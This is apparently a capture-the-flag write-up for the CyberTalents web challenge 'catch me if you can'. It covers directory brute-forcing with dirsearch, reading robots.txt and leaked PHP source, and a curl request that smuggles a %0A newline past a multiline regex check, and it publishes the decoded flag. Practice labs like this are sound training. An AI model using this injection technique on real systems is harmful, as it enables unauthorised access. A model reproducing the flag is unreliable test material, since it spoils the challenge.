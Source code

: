 # Solve catch me if you can
#### https://cybertalents.com/challenges/web/catch-me-if-you-can

![alt text](images/image-1.png)
### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mxmqvrwdh2zokj6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*

Scan robots.txt
```txt
User-agent: *
Disallow: /S3cr3t.php
Disallow: /source.php
```
Scan S3cr3t.php

![alt text](images/image.png)

Scan source.php
```php
<?php


include('flag.php');

$password=$_POST['pass'];

if (strpos( $password, 'R_4r3@')!== FALSE){
    
    if (!preg_match('/^-?[a-z0-9]+$/m', $password)) {
    
        die('ILLEGAL CHARACTERS');
  
        }
echo $cipher;
    }
else 
{
    echo 'Wrong Password';
    }

?>
```

### Try login with R_4r3@

![alt text](images/image-2.png)

It trigger the `preg_match`

The password must have a R_4r3@ and also pass preg_match

### Bypass with %0A
```bash
curl http://wcamxwl32pue3e6mxmqvrwdh2zokj6zqdkgxu639-web.cybertalentslabs.com/S3cr3t.php -d "pass=test%0AR_4r3@"

Can You Read This For Me ? <br><br>-[------->+<]>---.++++++.------------.--[--->+<]>---.[----->+<]>.[--->++<]>.>-[----->+<]>.>-[--->+<]>--.[--->+<]>+++.--.--[->+++++<]>+.---[-->+++<]>--.+[----->+<]>.++[++>---<]>.+[->++<]>.-----.+[--->++<]>+.--[----->+<]>-.>-[----->+<]>.+.>--[-->+++<]>.
```

### Decode Brainfuck
`-[------->+<]>---.++++++.------------.--[--->+<]>---.[----->+<]>.[--->++<]>.>-[----->+<]>.>-[--->+<]>--.[--->+<]>+++.--.--[->+++++<]>+.---[-->+++<]>--.+[----->+<]>.++[++>---<]>.+[->++<]>.-----.+[--->++<]>+.--[----->+<]>-.>-[----->+<]>.+.>--[-->+++<]>.` 
`FL@g{R3Str1Ct1d_Ar34`

### Resources
[Brainfuck decoder](https://www.dcode.fr/brainfuck-language)

>Find More on ==> github.com/MedhatHassan 
